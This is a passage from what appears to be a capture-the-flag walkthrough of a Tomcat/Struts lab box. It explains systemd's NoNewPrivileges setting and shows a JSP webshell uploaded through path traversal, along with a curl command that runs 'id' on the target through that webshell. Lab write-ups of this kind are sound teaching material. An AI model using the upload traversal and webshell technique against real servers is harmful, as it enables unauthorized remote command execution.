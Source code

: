 ```
PrivateTmp=yes
AmbientCapabilities=CAP_NET_BIND_SERVICE
NoNewPrivileges=true
CacheDirectory=tomcat9
CacheDirectoryMode=750
ProtectSystem=strict
ReadWritePaths=/etc/tomcat9/Catalina/
ReadWritePaths=/var/lib/tomcat9/webapps/
ReadWritePaths=/var/log/tomcat9/

[Install]
WantedBy=multi-user.target

```

The “Security” comment has a bunch of stuff defined here, many of which I was not familiar with. The important one for this investigation is `NoNewPrivilege`, which is defined [here](https://www.freedesktop.org/software/systemd/man/latest/systemd.exec.html#NoNewPrivileges=):

> Takes a boolean argument. If true, ensures that the service process and all its children can never gain new privileges through `execve()` (e.g. via setuid or setgid bits, or filesystem capabilities). This is the simplest and most effective way to ensure that a process and its children can never elevate privileges again. Defaults to false. In case the service will be run in a new mount namespace anyway and SELinux is disabled, all file systems are mounted with `MS_NOSUID` flag. Also see [No New Privileges Flag](https://docs.kernel.org/userspace-api/no_new_privs.html).
>
> Note that this setting only has an effect on the unit’s processes themselves (or any processes directly or indirectly forked off them). It has no effect on processes potentially invoked on request of them through tools such as [at(1)](https://man7.org/linux/man-pages/man1/at.1.html), [crontab(1)](https://man7.org/linux/man-pages/man1/crontab.1.html), [systemd-run(1)](https://www.freedesktop.org/software/systemd/man/latest/systemd-run.html#), or arbitrary IPC services.
>
> Added in version 187.

That means when I try to run `su`, despite it’s being a SetUID binary to run as root, it will run as tomcat. When it tries to do things like access `shadow` to verify the password, it will fail.

### Webshell Location

When I uploaded a webshell to a directory in`/uploads`, it didn’t work. For example, if I upload the same webshell to both `../../shell.jsp` and `../shell.jsp`, the first works:

```

oxdf@hacky$ curl strutted.htb/shell.jsp?cmd=id -o-
PNG

IHDR·rzU¢gAMA±
îàIEND®B`     üa Y

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=998(tomcat) gid=998(tomcat) groups=998(tomcat)

</pre>
</BODY></HTML>

```
